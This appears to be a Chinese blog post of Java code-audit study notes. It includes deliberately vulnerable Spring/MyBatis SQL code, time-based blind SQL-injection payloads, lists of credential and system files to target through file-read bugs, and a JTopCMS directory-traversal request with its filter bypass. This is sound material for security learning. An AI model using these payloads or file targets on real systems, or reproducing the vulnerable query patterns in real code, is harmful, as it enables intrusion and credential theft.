1 2 3 4 5 6 7 8 9 10 package jndi;import method.SayHelloImpl;import javax.naming.InitialContext;public class JndiServer public static void main (String[] args) throws Exception InitialContext initialContext = new InitialContext(); initialContext.rebind("rmi://127.0.0.1:1099/sayhello" ,new SayHelloImpl()); System.out.println("启动成功..." ); } }
JndiClient
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 package jndi;import method.SayHello;import javax.naming.InitialContext;public class JndiClient public static void main (String[] args) throws Exception InitialContext initialContext = new InitialContext(); SayHello sayHello = (SayHello)initialContext.lookup("rmi://127.0.0.1:1099/sayhello" ); System.out.println(sayHello.getname()); System.out.println(sayHello.sayhello("POWER7089" )); System.out.println(sayHello.getname()); } }

SQLI JDBC java.sql.Statement没啥好说的，
主要看一下预编译java.sql.PreparedStatement和order by
java.sql.PreparedStatement 预编译java.sql.PreparedStatement示例代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 package com.example.sqlidemo.jdbcinjection;import org.springframework.beans.factory.annotation.Value;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.RestController;import java.sql.*;@RestController @RequestMapping("/sqli") public class JdbcPrepareStatement private static String driver = "com.mysql.jdbc.Driver" ; @Value("${spring.datasource.url}") private String url; @Value("${spring.datasource.username}") private String user; @Value("${spring.datasource.password}") private String password; @RequestMapping("/jdbc/sec") public String jdbcsec (@RequestParam("username") String username) throws SQLException, ClassNotFoundException { StringBuilder result = new StringBuilder(); Class.forName(driver); Connection conn = DriverManager.getConnection(url, user, password); String sql = "select * from users where username = ?" ; PreparedStatement preparestatement = conn.prepareStatement(sql); preparestatement.setString(1 , username); ResultSet rs = preparestatement.executeQuery(); while (rs.next()) { String resUsername = rs.getString("username" ); String resPassword = rs.getString("password" ); String info = String.format("%s: %s\n" , resUsername, resPassword); result.append(info); } rs.close(); conn.close(); return result.toString(); } @RequestMapping("/jdbc/preparestaement") public String jdbcPrepare (@RequestParam("username") String username) throws ClassNotFoundException, SQLException { StringBuilder result = new StringBuilder(); Class.forName(driver); Connection conn = DriverManager.getConnection(url, user, password); String sql = "select * from users where username = '" + username + "'" ; PreparedStatement preparestatement = conn.prepareStatement(sql); ResultSet rs = preparestatement.executeQuery(); while (rs.next()) { String reUsername = rs.getString("username" ); String resPassword = rs.getString("password" ); String info = String.format("%s: %s\n" , reUsername, resPassword); result.append(info); } rs.close(); conn.close(); return result.toString(); } }
第二个jdbcPrepare中，虽然是用的预编译执行sql语句，但是还是增加了拼接的部分，把username未经过滤就拼接到了sql语句中去了。
order by 在SQL语句中， order by 语句用于对结果集进行排序。 order by 语句后面需要是字段名或者字段位置。
order by示例代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 package com.example.sqlidemo.jdbcinjection;import org.springframework.beans.factory.annotation.Value;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.RestController;import java.sql.*;@RestController @RequestMapping("/sqli") public class JdbcOrderBy private static String driver = "com.mysql.jdbc.Driver" ; @Value("${spring.datasource.url}") private String url; @Value("${spring.datasource.username}") private String user; @Value("${spring.datasource.password}") private String password; @RequestMapping("/jdbc/orderby") public String jdbcOrderby (@RequestParam("id") String id) throws ClassNotFoundException, SQLException { StringBuilder result = new StringBuilder(); Class.forName(driver); Connection conn = DriverManager.getConnection(url, user, password); String sql = "select * from users" + " order by " + id; PreparedStatement preparestatement = conn.prepareStatement(sql); ResultSet rs = preparestatement.executeQuery(); while (rs.next()) { String reUsername = rs.getString("username" ); String resPassword = rs.getString("password" ); String info = String.format("%s: %s\n" , reUsername, resPassword); result.append(info); } rs.close(); conn.close(); return result.toString(); } }
payload:
1 if((6=(select length(version()))),sleep(0.5),sleep(1.2))--+
感觉有点复杂了，学艺不精


mybatis Mybatis中#{}和${}区别 在Mybatis中拼接SQL语句有两种方式：一种是占位符 #{} ，另一种是拼接符 ${} 。
占位符 #{} ：对传入的参数进行预编译转义处理。类似JDBC中的 PreparedStatement 。比如： select * from user where id = #{number} ，如果传入数值为1，最终会被解析成 select * from user where id = “1” 。
拼接符 ${} ：对传入的参数不做处理，直接拼接，进而会造成SQL注入漏洞。比如：比如： select * from user where id = ${number} ，如果传入数值为1，最终会被解析成select * from user where id = 1 。
#{} 可以有效防止SQL注入漏洞。 ${} 则无法防止SQL注入漏洞。order by、in、like 。
示例代码
MybaitsController.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 package com.example.sqlidemo.mybatisinjection;import org.springframework.beans.factory.annotation.Autowired;import org.springframework.web.bind.annotation.*;import java.util.List;@RestController @RequestMapping("/sqli") public class MybaitsController @Autowired private UserMapper userMapper; @GetMapping("/mybatis/orderby") public List<User> orderbySql (@RequestParam("sort") String sort) return userMapper.orderbyInjection(sort); } @GetMapping("/mybatis/in") public List<User> inSql (@RequestParam("params") String params) return userMapper.inInjection(params); } @GetMapping("/mybatis/like") @ResponseBody public List<User> likeSql (@RequestParam("username") String username) return userMapper.likeInjection(username); } }
User.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 package com.example.sqlidemo.mybatisinjection;public class User private int id; private String username; private String password; public int getId () return id; } public void setId (int id) this .id = id; } public String getUsername () return username; } public void setUsername (String name) this .username = username; } public String getPassword () return password; } public void setPassword (String password) this .password = password; } @Override public String toString () return "User [id=" + id + ", username=" + username + ", password=" + password + "]" ; } }
UserMapper.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package com.example.sqlidemo.mybatisinjection;import org.apache.ibatis.annotations.Mapper;import org.apache.ibatis.annotations.Param;import org.apache.ibatis.annotations.Select;import org.springframework.web.bind.annotation.RequestParam;import java.util.List;@Mapper public interface UserMapper List<User> orderbyInjection (@RequestParam("sort") String sort) ; @Select("select * from users where id in (${params})") List<User> inInjection (@Param("params") String params) ; List<User> likeInjection (@Param("username") String username) ; }
UserMapper.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE mapper PUBLIC "-//mybatis.org//DTD Mapper 3.0//EN" "http://mybatis.org/dtd/mybatis-3-mapper.dtd" > <mapper namespace ="com.example.sqlidemo.mybatisinjection.UserMapper" > <resultMap type ="com.example.sqlidemo.mybatisinjection.User" id ="User" > <id column ="id" property ="id" javaType ="java.lang.Integer" jdbcType ="NUMERIC" /> <id column ="username" property ="username" javaType ="java.lang.String" jdbcType ="VARCHAR" /> <id column ="password" property ="password" javaType ="java.lang.String" jdbcType ="VARCHAR" /> </resultMap > <select id ="orderbyInjection" parameterType ="String" resultMap ="User" > select * from users order by ${sort} asc </select > <select id ="likeInjection" parameterType ="String" resultMap ="User" > select * from users where username like '%${username}%' </select > </mapper >
order by oder by的mybatis代码如下：
1 2 3 <select id ="orderbyInjection" parameterType ="String" resultMap ="User" > select * from users order by ${sort} asc </select >
可以很明显的看到使用 ${} 拼接，所以这种在mybatis层是没有作任何过滤的，和字符串拼接一样的。

in in的相关sql如下
1 2 @Select("select * from users where id in (${params})") List<User> inInjection (@Param("params") String params) ;
可以看到也是 ${} 拼接的sql语句
拼接后的语句：
1 select * from users where id in (1 ,(select sleep(3 )))

但是这里有个问题，可以对比几个不同的payload来说明一下问题



三个不同的payload：
(select sleep(3))
1,(select sleep(3))
1,2,(select sleep(3))
返回时间分别约为6s、3s、0s
经过一波测试，初步猜测in的实际工作原理，是从括号里，把元素从左到右拿出来，使用id=xxxx进行对比，所以图2这条sql：select * from users where id in ((select sleep(1))); 花的时间是5秒，也就是执行了5次id=(select sleep(1))。
如果查到一条就把他从待查询目标中划掉，后续的带查询目标就少了一条，比如图3的第一条sql：select * from users where id in (1,2,(select sleep(1))); 查到了两次，1和2,待查询目标只剩5-2=3条了，所以这条sql花了3秒，而如果前面把所有的都查完了，比如图3的第三条sql：select * from users where id in (1,2,3,4,5,(select sleep(1)));前面把5条都查到了，带查询目标为5-5=0条，所以这条sql花了0秒。




not in 应该也是一样的
like like和order by一样，

正确写法应该是：
1 SELECT * FROM users WHERE name like CONCAT("%", #{name}, "%")
文件相关 文件上传 现在大多数项目都是基于SpringBoot架构进行的开发，官方不建议SpringBoot使用JSP，并且做了一些限制。我自己工作半年多测过的这几十个系统，没一个本地存储文件的，都是oss。在对SpringBoot项目审计时如果想要查看是否对JSP完全解析，可以从熟悉的 pom.xml 文件下手，查看是否引入了相关依赖。如下所示：
1 2 3 4 5 6 <dependency > <groupId > org.apache.tomcat.embed</groupId > <artifactId > tomcat-embed-jasper</artifactId > <scope > provided</scope > </dependency >
探索SpringBoot是否解析JSP目的是如果该项目存在任意文件上传漏洞，那么我们可以通过上传JspShell代码最大化我们的攻击.
推荐文章：
构造优质上传漏洞Fuzz字典 https://www.freebuf.com/articles/web/188464.html
阿里云OSS约等于文件上传漏洞 http://pirogue.org/2017/09/29/aliyunoss/
任意文件读取/下载漏洞 windows系统敏感文件
boot.ini #查看系统版本 https://www.baidu.com/link?url=nKzpWzggp1kJ00BAoWC2Zv33Gg9u4up4tLCYtoxbv6gS8CwAuhEIsfe9PE3wMraztG2jvppzyDcHN3cGX7ljrkZXnSY-rjmI_jjyBG-Tt6Lq64kgZiQVW8RDYdkd2XQl&wd=&eqid=b6a1b63500001eff000000065fceeed0
c:/windows/php.ini #php配置信息
c:/windows/my.ini #MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码
c:/winnt/php.ini
c:/winnt/my.ini
c:\mysql\data\mysql\user.MYD #mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini #存储了虚拟主机网站路径和密码
c:\Program Files\Serv-U\ServUDaemon.ini
c:\windows\system32\inetsrv\MetaBase.xml #查看IIS的虚拟主机配置
c:\windows\repair\sam #WINDOWS系统初次安装的密码
c:\Program Files\ Serv-U\ServUAdmin.exe #6.0版本以前的serv-u管理员密码
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere*.cif文件 #存储了pcAnywhere的登陆密码
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf#查看WINDOWS系统apache文件
c:/Resin-3.0.14/conf/resin.conf #查看jsp开发的网站resin文件配置信息.
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf #查看linux系统配置的JSP虚拟主机
d:\APACHE\Apache2\conf\httpd.conf
C:\Program Files\mysql\my.ini
C:\mysql\data\mysql\user.MYD #存在MYSQL系统中的用户密码
C:\Windows\System32\drivers\etc\hostswinserver配置Telnet信息
Linux系统敏感文件
/etc/httpd/conf/httpd.conf
/etc/rc.local 有时可以读出来apache的路径
/usr/local/apache/conf/httpd.conf
/var/www/html/apache/conf/httpd.conf
/home/httpd/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/httpd/conf/httpd.conf
/etc/apache/httpd.conf
/usr/local/lib/php.ini
/etc/hosts.deny 定义禁止访问本机的主机
/etc/bashrc bash shell 的系统全局配置
/etc/group 系统用户组的定义文件
/etc/httpd/httpd.conf
/etc/issue 显示Linux核心的发行版本信息（用于本地登陆用户）
/etc/issue/net 显示Linux核心和发行版本信息（用于远程登陆用户）—-没成功
/etc/ssh/ssh_config ssh配置文件
/etc/termcap 终端定义和配置文件
/etc/xinetd.d
/etc/mtab 包含当前安装的文件系统列表 有时可以读取到当前网站的路径
redhat-release:包含识别当前Red Hat 版本号的字符串
shells:列出可用在系统上的shell命令行解释器(bash,sh,csh等).
/etc/vsftpd/vsftpd.conf
/etc/xinetd.conf xinetd 配置文件
/etc/protocols 列举当前可用的协议
/etc/logrotate.conf 维护 /var/log 目录中的日志文件
/etc/ld.so.conf “动态链接程序”（Dynamic Linker）的配置
/etc/wgetrc
Linux操作系统用户配置文件
/etc/passwd
/etc/shadow
/etc/inputrc
DNS客户机配置文件，设置DNS服务器的IP地址及DNS域名
内容为Default Router的ip地址
Redhat 5.x: /etc/sysconfig/network
/etc/sendmail.cf (Linux) Sendmail(EMAIL服务器)配置文件
/etc/sendmail.cw 本地主机名
关键字
org.apache.commons.io.FileUtils
org.springframework.stereotype.Controller
import java.nio.file.Files
import java.nio.file.Path
import java.nio.file.Paths
import java.util.Scanner
sun.nio.ch.FileChannelImpl
java.io.File.list/listFiles
java.io.FileInputStream
java.io.FileOutputStream
java.io.FileSystem/Win32FileSystem/WinNTFileSystem/UnixFileSystem
sun.nio.fs.UnixFileSystemProvider/WindowsFileSystemProvider
java.io.RandomAccessFile
sun.nio.fs.CopyFile
sun.nio.fs.UnixChannelFactory
sun.nio.fs.WindowsChannelFactory
java.nio.channels.AsynchronousFileChannel
FileUtil/IOUtil
BufferedReader
readAllBytes
scanner
上面是给出的文件操作类关键字，这些关键字不仅仅能定位到文件读取或下载操作，还会涉及到一些比
Jtopcms目录穿越 数据包
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 POST /resources/downloadResFile.do?entry=*template*img**!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11****!4****!11**etc HTTP/1.1 Host : 127.0.0.1:8080User-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36Accept : text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language : zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding : gzip, deflateContent-Type : application/x-www-form-urlencodedContent-Length : 90Origin : http://127.0.0.1:8080Connection : closeReferer : http://127.0.0.1:8080//core/templet/ManageTemplate.jsp?parentFolder=*template*imgCookie : JSESSIONID=CF79A6652024C7923DBB3202ACC39ED5; webfx-tree-cookie-persistence=10644+10645+10648+10657+-9999Upgrade-Insecure-Requests : 1Sec-Fetch-Dest : iframeSec-Fetch-Mode : navigateSec-Fetch-Site : same-originSec-Fetch-User : ?1sec-ch-ua-platform : "Windows"sec-ch-ua : "Google Chrome";v="113", "Chromium";v="113", "Not=A?Brand";v="24"sec-ch-ua-mobile : ?0downFileInfo=passwd&_sys_jtop_token_key_=148*1832718297ff8081818a16e239965018a172ab63000d1
过滤：
在ResourcesService.java的getFullFilePathByManager函数中，
1 2 3 4 if ( ( endEntry.indexOf( "../" ) != -1 ) || ( endEntry.indexOf( "..%2F" ) != -1 )|| ( endEntry.indexOf( "..%2f" ) != -1 ) || ( endEntry.indexOf( "WEB-INF" ) != -1 ) ) { return "" ; }

会过滤../、..%2F、..%2f、WEB-INF
突破点
在SystemSafeCharUtil.java中，有一组字符替换的函数decodeDangerChar

其中会把**!4**替换为..，把**!11**替换为\，在win 环境下，是可以用..\来跳到上层目录的所以上面数据包的在经过一系列处理后，就变成了
1 /home/this_is_y/Code_Audit/Web/JTopCMSV3-JTopCMSV3.0.2-OP/target/ROOT/demo/template/img\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc/passwd
当然，因为我这里是linux环境，所以复现不了
XXE 搜索敏感函数的脚本 来自https://github.com/Cryin/JavaID，修改了一部分代码，增加了一些规则，优化了一下输出结果
javaid.py 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 import reimport osimport optparseimport sysfrom lxml.html import etreeimport logginglogging.basicConfig(level=logging.DEBUG) class javaid (object def __init__ (self,dir ): self._function = '' self._fpanttern = '' self._line = 0 self._dir = dir self._shortfilename = '' self._filename = '' self._vultype = '' self._code = '' def _run (self ): try : self.banner() self.handlePath(self._dir ) print ("[-]【JavaID】identify danger function Finished!" ) except : raise def report_id (self,vul ): print ( "[+]【" +self._vultype+"】【" +self._function+"】【" + self._shortfilename + "】 " +self._filename) def handlePath (self, path ): ''' 用递归遍历所有的文件名，并发给handleFile()方法去处理 ''' dirs = os.listdir(path) for d in dirs: subpath = os.path.join(path, d) if os.path.isfile(subpath): if os.path.splitext(subpath)[1 ] == '.java' or os.path.splitext(subpath)[1 ] == '.xml' : self._filename =subpath (_, self._shortfilename) = os.path.split(subpath) self.handleFile(subpath) else : self.handlePath(subpath) def handleFile (self, fileName ): ''' 打开文件，经过remove_comment处理后，发给check_regexp去使用正则处理 ''' f = open (fileName, 'r' ) self._line = 0 content = f.read() content=self.remove_comment(content) self.check_regexp(content) f.close() def get_code (self,result ): fl = open (self._filename, 'r' ) self._line =0 while 1 : line = fl.readline() if not line: break self._line += 1 if result in line: self._code = line.strip() print ("line:" ,self._line," code: \033[1;31m" ,self._code,"\033[0m" ) break def regexp_search (self,rule_dom,content ): ''' 传入rule_dom,content，通过rule_dom来找到对应的规则，每条规则可以对应多个正则 ''' regmatch_dom = rule_dom[0 ].xpath("regmatch" ) regexp_doms = regmatch_dom[0 ].xpath("regexp" ) if regmatch_dom != None else [] for regexp_dom in regexp_doms: exp_pattern = re.compile (regexp_dom.text) result = exp_pattern.findall(content) if result: for i in result: self.report_id(self._vultype) self.get_code(i) return True def check_regexp (self, content ): ''' 使用正则搜索文件内容中的关键字 ''' if not content: return self._xmlstr_dom = etree.parse(regexp) javaid_doms = self._xmlstr_dom.xpath("javaid" ) for javaid_dom in javaid_doms: self._vultype =javaid_dom.get("vultype" ) function_doms = javaid_dom.xpath("function" ) for function_dom in function_doms: rule_dom = function_dom.xpath("rule" ) self._function =rule_dom[0 ].get("name" ) self.regexp_search(rule_dom,content) return True def banner (self ): print ( "[-]【JavaID】 Danger function identify tool" ) if __name__ == '__main__' : parser = optparse.OptionParser('usage: python %prog [options](eg: python %prog -d /user/java/demo)' ) parser.add_option('-d' , '--dir' , dest = 'dir' , type = 'string' , help = 'source code file dir' ) (options, args) = parser.parse_args() path = os.path.dirname(__file__) regexp = path+"/regexp.xml" if options.dir == None or options.dir == "" : parser.print_help() sys.exit() dir =options.dir javaidentify = javaid(dir ) javaidentify._run()
regexp.xml 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 351 352 353 354 355 356 357 358 359 360 361 362 363 364 365 366 367 368 369 370 371 372 373 374 375 376 377 378 379 380 381 382 383 384 385 386 387 388 389 <root > <javaid vultype ='XXE' > <function > <rule name ='SAXReader' > <regmatch > <regexp > new\s+SAXReader\(\)</regexp > </regmatch > </rule > </function > <function > <rule name ='SAXBuilder' > <regmatch > <regexp > new\s+SAXBuilder\(\)</regexp > </regmatch > </rule > </function > <function > <rule name ='SAXParser' > <regmatch > <regexp > newSAXParser\(</regexp > </regmatch > </rule > </function > <function > <rule name ='XMLReader' > <regmatch > <regexp > createXMLReader\(</regexp > </regmatch > </rule > </function > <function > <rule name ='DocumentBuilder' > <regmatch > <regexp > newDocumentBuilder\(</regexp > </regmatch > </rule > </function > <function > <rule name ='XMLStreamReader' > <regmatch > <regexp > createXMLStreamReader\(</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='ObjectDeserialization' > <function > <rule name ='readObject' > <regmatch > <regexp > \.readObject\(</regexp > </regmatch > </rule > </function > <function > <rule name ='parseObject' > <regmatch > <regexp > JSON\.parseObject\(</regexp > </regmatch > </rule > </function > <function > <rule name ='readValue' > <regmatch > <regexp > ObjectMapper\.readValue</regexp > </regmatch > </rule > </function > <function > <rule name ='fromXML' > <regmatch > <regexp > fromXML\(</regexp > </regmatch > </rule > </function > <function > <rule name ='readUnshared' > <regmatch > <regexp > readUnshared\(</regexp > </regmatch > </rule > </function > <function > <rule name ='Yaml' > <regmatch > <regexp > \.load\(</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='SSRF' > <function > <rule name ='HttpClient' > <regmatch > <regexp > CloseableHttpClient\s?[\w\d\_]+\s?=\s?\w?[\w\d\_]+\.createDefault\(</regexp > </regmatch > </rule > </function > <function > <rule name ='HttpAsyncClient' > <regmatch > <regexp > CloseableHttpAsyncClient\s[\w\d\_]+\s?=\s?</regexp > <regexp > HttpAsyncClients\.createDefault\(</regexp > </regmatch > </rule > </function > <function > <rule name ='URLConnection' > <regmatch > <regexp > import\sjava\.net\.URLConnection;</regexp > </regmatch > </rule > </function > <function > <rule name ='HttpURLConnection' > <regmatch > <regexp > \.openConnection\(|\.getInputStream\(</regexp > </regmatch > </rule > </function > <function > <rule name ='URL' > <regmatch > <regexp > URL\(|openStream\(</regexp > </regmatch > </rule > </function > <function > <rule name ='Socket' > <regmatch > <regexp > new\sSocket\(</regexp > </regmatch > </rule > </function > <function > <rule name ='OkHttpClient' > <regmatch > <regexp > \.newCall\(|Request.Builder\(\)</regexp > </regmatch > </rule > </function > <function > <rule name ='ImageIO' > <regmatch > <regexp > ImageIO\.read\(</regexp > </regmatch > </rule > </function > <function > <rule name ='Hutool' > <regmatch > <regexp > HttpRequest\.get</regexp > <regexp > HttpRequest\.post</regexp > </regmatch > </rule > </function > <function > <rule name ='Jsoup' > <regmatch > <regexp > Jsoup\.connect</regexp > </regmatch > </rule > </function > <function > <rule name ='RestTemplate' > <regmatch > <regexp > \.getForObject\(</regexp > <regexp > RestTemplate</regexp > </regmatch > </rule > </function > <function > <rule name ='SimpleDriverDataSource' > <regmatch > <regexp > \.getConnection\(</regexp > </regmatch > </rule > </function > <function > <rule name ='DriverManager' > <regmatch > <regexp > \.getConnection\(</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='FileUpload' > <function > <rule name ='MultipartFile' > <regmatch > <regexp > \.getOriginalFilename\(|MultipartFile\s</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='File' > <function > <rule name ='createNewFile' > <regmatch > <regexp > \.createNewFile\(|FileOutputStream\(</regexp > </regmatch > </rule > </function > <function > <rule name ='delete' > <regmatch > <regexp > \.delete\(\)</regexp > </regmatch > </rule > </function > <function > <rule name ='FileInputStream' > <regmatch > <regexp > new\sFileInputStream\(</regexp > </regmatch > </rule > </function > <function > <rule name ='maybe' > <regmatch > <regexp > org\.springframework\.stereotype\.Controller</regexp > <regexp > org\.apache\.commons\.io\.FileUtils</regexp > <regexp > import\sjava\.nio\.file\.Files</regexp > <regexp > import\sjava\.nio\.file\.Path</regexp > <regexp > import\sjava\.nio\.file\.Paths</regexp > <regexp > import\sjava\.util\.Scanner</regexp > <regexp > sun\.nio\.ch\.FileChannelImpl</regexp > <regexp > java\.io\.File\.list/listFiles</regexp > <regexp > java\.io\.FileInputStream</regexp > <regexp > java\.io\.FileOutputStream</regexp > <regexp > java\.io\.FileSystem/Win32FileSystem/WinNTFileSystem/UnixFileSystem</regexp > <regexp > sun\.nio\.fs\.UnixFileSystemProvider/WindowsFileSystemProvider</regexp > <regexp > java\.io\.RandomAccessFile</regexp > <regexp > sun\.nio\.fs\.CopyFile</regexp > <regexp > sun\.nio\.fs\.UnixChannelFactory</regexp > <regexp > sun\.nio\.fs\.WindowsChannelFactory</regexp > <regexp > java\.nio\.channels\.AsynchronousFileChannel</regexp > <regexp > BufferedReader</regexp > <regexp > readAllBytes</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='Autobinding' > <function > <rule name ='SessionAttributes' > <regmatch > <regexp > @SessionAttributes</regexp > </regmatch > </rule > </function > <function > <rule name ='ModelAttribute' > <regmatch > <regexp > @ModelAttribute</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='URL-Redirect' > <function > <rule name ='sendRedirect' > <regmatch > <regexp > sendRedirect\(</regexp > </regmatch > </rule > </function > <function > <rule name ='setHeader' > <regmatch > <regexp > setHeader\(\"refresh</regexp > </regmatch > </rule > </function > <function > <rule name ='forward' > <regmatch > <regexp > forward\(</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='EXEC' > <function > <rule name ='getRuntime' > <regmatch > <regexp > getRuntime\(\)\.exec\(</regexp > </regmatch > </rule > </function > <function > <rule name ='ProcessBuilder' > <regmatch > <regexp > ProcessBuilder|ProcessBuilder\.start</regexp > </regmatch > </rule > </function > <function > <rule name ='GroovyShell' > <regmatch > <regexp > GroovyShell\.evaluate</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='SPelInjection' > <function > <rule name ='SpelExpressionParser' > <regmatch > <regexp > SpelExpressionParser</regexp > </regmatch > </rule > </function > <function > <rule name ='getValue' > <regmatch > <regexp > getValue\(\)</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='SQLi' > <function > <rule name ='select' > <regmatch > <regexp > (into|where)[^\$]*(\$\{[^,#=\s]+\})</regexp > </regmatch > </rule > </function > </javaid > <javaid vultype ='Info-disclosure' > <function > <rule name ='actuator' > <regmatch > <regexp > spring-boot-starter-actuator</regexp > </regmatch > </rule > </function > </javaid > </root >
报错信息记录 1 Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed: java.lang.IllegalStateException: No primary or single unique constructor found for interface javax.servlet.http.HttpServletResponse] with root cause
这个报错的重点在于后面的 java.lang.IllegalStateException: No primary or single unique constructor found for interface javax.servlet.http.HttpServletResponse ] with root cause
对比了两个几乎一模一样的项目后发现，应该是因为org.springframework.boot的版本太高了，导致的javax.servlet出错。因为我报错的时候的pom.xml文件中，它的版本是3.1.2，我改成2.7.2就没问题了
这是没报错的pom.xml文件内容
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 <?xml version="1.0" encoding="UTF-8"?> <project xmlns ="http://maven.apache.org/POM/4.0.0" xmlns:xsi ="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation ="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd" > <modelVersion > 4.0.0</modelVersion > <parent > <groupId > org.springframework.boot</groupId > <artifactId > spring-boot-starter-parent</artifactId > <version > 2.7.2</version > <relativePath /> </parent > <groupId > com.example</groupId > <artifactId > java_rce_web</artifactId > <version > 0.0.1-SNAPSHOT</version > <name > java_rce_web</name > <description > java_rce_web</description > <properties > <java.version > 1.8</java.version > </properties > <dependencies > <dependency > <groupId > org.springframework.boot</groupId > <artifactId > spring-boot-starter-web</artifactId > </dependency > <dependency > <groupId > org.springframework.boot</groupId > <artifactId > spring-boot-starter-test</artifactId > <scope > test</scope > </dependency > <dependency > <groupId > javax.servlet</groupId > <artifactId > javax.servlet-api</artifactId > <version > 4.0.1</version > <scope > provided</scope > </dependency > </dependencies > <build > <plugins > <plugin > <groupId > org.springframework.boot</groupId > <artifactId > spring-boot-maven-plugin</artifactId > </plugin > </plugins > </build > </project >
2 com.sun.image.codec.jpeg不存在
查了许多文章，都是在pom.xml中加类似下面这样的东西，实测没用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <plugin > <groupId > org.apache.maven.plugins</groupId > <artifactId > maven-compiler-plugin</artifactId > <configuration > <source > 1.8</source > <target > 1.8</target > <encoding > UTF-8</encoding > <compilerArguments > <verbose /> <bootclasspath > ${java.home}/lib/rt.jar;${java.home}/lib/jce.jar</bootclasspath > </compilerArguments > </configuration > </plugin >
真正能用的还是改代码，目前还没测试兼容性问题，但是com.sun.image.codec.jpeg这个包已经很老了。使用这句代码替换原代码实现的功能
1 ImageIO.write(tag,"jpeg" ,out);

参考 Java审计之文件上传 https://www.cnblogs.com/CoLo/p/15225367.html
Java安全之命令执行 https://www.anquanke.com/post/id/221159